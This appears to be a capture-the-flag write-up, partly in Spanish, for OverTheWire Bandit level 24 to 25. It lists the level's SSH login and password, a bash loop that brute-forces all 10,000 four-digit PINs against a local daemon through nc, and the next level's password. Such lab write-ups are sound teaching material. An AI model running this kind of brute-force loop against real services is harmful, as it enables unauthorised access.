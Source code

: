 # Bandit Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de Acceso
- ssh bandit24@bandit.labs.overthewire.org -p 2220
- VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución 
```bash
- for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
       I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
		Correct!
		The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

## Notas Adicionales

## Referencias